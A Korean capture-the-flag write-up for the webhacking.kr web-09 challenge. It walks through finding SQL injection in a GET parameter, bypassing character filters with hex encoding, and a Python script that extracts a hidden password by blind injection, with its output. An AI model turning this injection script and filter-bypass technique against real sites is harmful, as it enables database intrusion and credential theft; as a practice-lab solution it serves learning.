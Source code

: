 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**

![](images/2022-01-03-16-20-11.png)


# **Write-Up**

Password를 알아내야 하는 문제이다. 1, 2, 3이라 되어있는 링크를 클릭하면 Apple, Banana, Secret이라는 텍스트가 출력되고 GET method로 no라는 값이 넘어간다.

![](images/2022-01-03-16-21-30.png)![](images/2022-01-03-16-21-47.png)![](images/2022-01-03-16-21-51.png)

column은 id, no라는 것으로 보아 no=1인 id의 값은 Apple이고 no=2인 id의 값은 Banana이고 no=3인 id의 값은 "Secret"이 아니라 비밀인 것 같다.

또한 문제에서 요구하는 Password는 no=3인 id의 값이다.

먼저 다른 no를 알아보면 0일때는 인덱스가 나온다.

![](images/2022-01-03-16-22-05.png)

음수의 경우는 Access Denied가 나온다. ('-'을 필터링하는 것일 수 도)

![](images/2022-01-03-16-22-13.png)

4이상의 값은 비밀번호를 입력하라고만 나온다.

![](images/2022-01-03-16-22-17.png)

Password에 ' or 1=1 -- 과 같은 SQLi는 당연히 안되는 것 같고, no에서 SQLi가 된다.

![](images/2022-01-03-16-22-22.png)

다만, 필터링에 걸리는 문자가 꾀나 까다로운 듯 하다.

![](images/2022-01-03-16-22-28.png)

'=' 문자는 필터링이 된다.

![](images/2022-01-03-16-22-34.png)

" ' "와 "char"도 문자도 필터링이 된다.

![](images/2022-01-03-16-25-37.png)![](images/2022-01-03-16-25-41.png)
 
16진수를 이용하여 문자를 우회하면 다행히 잘 된다. 그 와 동시에 true, false의 다른 반응 값도 알 수 있다.

![](images/2022-01-03-16-25-46.png)![](images/2022-01-03-16-25-49.png)

no가 3인 id의 값을 알아내자.

```python
import urllib.request
import string

password    = ''

for i in range(1, 20):
    old_len = len(password)
    for c in string.printable.strip():
        query   = 'IF(substr(id,{0},1)like(0x{1}),3,0)'.format(i, (c.encode()).hex())
        url     = 'https://webhacking.kr/challenge/web-09/index.php?no='+query
        header  = {'Cookie': 'PHPSESSID=s5g2rgani18o2h3nbe34lln6bd'}
        request = urllib.request.Request(url, headers=header)
        response= urllib.request.urlopen(request)
        result  = response.read().decode()

        if 'Secret' in result:
            password += c
            break
    new_len = len(password)
    if old_len == new_len : break
print(password)

[Output]
alsrkswhaql%%%%%%%%
```

no가 3인 id의 값이 Password라고 하니 Password로 넣으면 점수를 획득할 수 있다.

![](images/2022-01-03-16-26-02.png)